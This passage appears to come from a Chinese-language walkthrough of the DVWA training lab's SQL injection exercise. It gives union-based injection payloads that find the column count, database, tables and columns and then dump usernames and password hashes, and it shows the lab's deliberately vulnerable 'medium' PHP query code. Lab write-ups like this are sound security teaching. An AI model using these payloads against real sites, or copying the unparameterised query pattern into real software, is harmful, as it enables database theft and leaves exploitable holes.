 说明为字符型注入，' 闭合。

2.输入 1' #  ,回显正确。这个是采用注释掉后面 ‘ 的方式。

也可以 1' or '1'='1  闭合后面单引号，同样可以达到目的。

3.判断字段数，输入  1' order by x #  (x=2,3)  得到字段数为2。

4.查询回显字段，输入 -1' union select 1,2 #  ,得到回显字段

[![DvNVYR.png](https://s3.ax1x.com/2020/12/07/DvNVYR.png)](https://imgchr.com/i/DvNVYR)

5.查询数据库名，输入  -1' union select 1,database() #  ,

[![DvahFJ.png](https://s3.ax1x.com/2020/12/07/DvahFJ.png)](https://imgchr.com/i/DvahFJ)

得到数据库为 dvwa。

6.-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()) #

查询表名：

[![Dvwp4J.png](https://s3.ax1x.com/2020/12/07/Dvwp4J.png)](https://imgchr.com/i/Dvwp4J)

7.-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users') #

查询列名：

[![DvwsbT.md.png](https://s3.ax1x.com/2020/12/07/DvwsbT.md.png)](https://imgchr.com/i/DvwsbT)

8.-1' union select 1,(select group_concat(user,',',password) from dvwa.users) #

得到用户与密码：

[![Dv0sSA.md.png](https://s3.ax1x.com/2020/12/07/Dv0sSA.md.png)](https://imgchr.com/i/Dv0sSA)

##### medium

```
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```